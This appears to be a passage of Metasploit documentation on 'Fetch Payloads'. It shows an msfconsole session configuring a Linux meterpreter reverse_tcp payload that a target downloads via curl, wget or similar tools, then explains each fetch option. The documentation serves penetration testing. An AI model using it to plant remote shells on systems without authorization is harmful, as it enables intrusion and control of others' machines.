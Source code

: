 
## A Simple Stand-Alone Example
The fastest way to understand Fetch Payloads is to use them and examine the output. For example, let's assume a Linux
target with the ability to connect back to us with  an HTTP connection and a command execution vulnerability.
First, let's look at the payload in isolation:
```msf
msf6 exploit(multi/ssh/sshexec) > use payload/cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > show options

Module options (payload/cmd/linux/http/x64/meterpreter/reverse_tcp):

Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
FETCH_FILENAME      YXeSdwsoEfOH     no        Name to use on remote system when storing payload
FETCH_SRVHOST       0.0.0.0          yes       Local IP to use for serving payload
FETCH_SRVPORT       8080             yes       Local port to use for serving payload
FETCH_URIPATH                        no        Local URI to use for serving payload
FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload
LHOST                                yes       The listen address (an interface may be specified)
LPORT               4444             yes       The listen port


View the full module info with the info, or info -d command.

msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > 
```

### Options
`FETCH_COMMAND` is the binary we wish to run on the remote host to download the adapted payload.  Currently, the
supported options are `CURL FTP TFTP TNFTP WGET` on Linux hosts and `CURL TFTP CERTUTIL` on Windows hosts.  We'll get
into more details on the binaries later.
`FETCH_FILENAME` is the name you'd like the executable payload saved as on the remote host.  This option is not
supported by every binary and must end in `.exe` on Windows hosts.  The default value is random.
`FETCH_SRVHOST` is the IP where the server will listen.
`FETCH_SRVPORT` is the port where the server will listen.
`FETCH_URIPATH` is the URI corresponding to the payload file.  The default value is deterministic based on the
underlying payload so a payload created in msfvenom will match a listener started in Framework assuming the underlying
served payload is the same.
`FETCH_WRITABLE_DIR` is the directory on the remote host where we'd like to store the served payload prior to execution.
This value is not supported by all binaries.  If you set this value and it is not supported, it will generate an error.
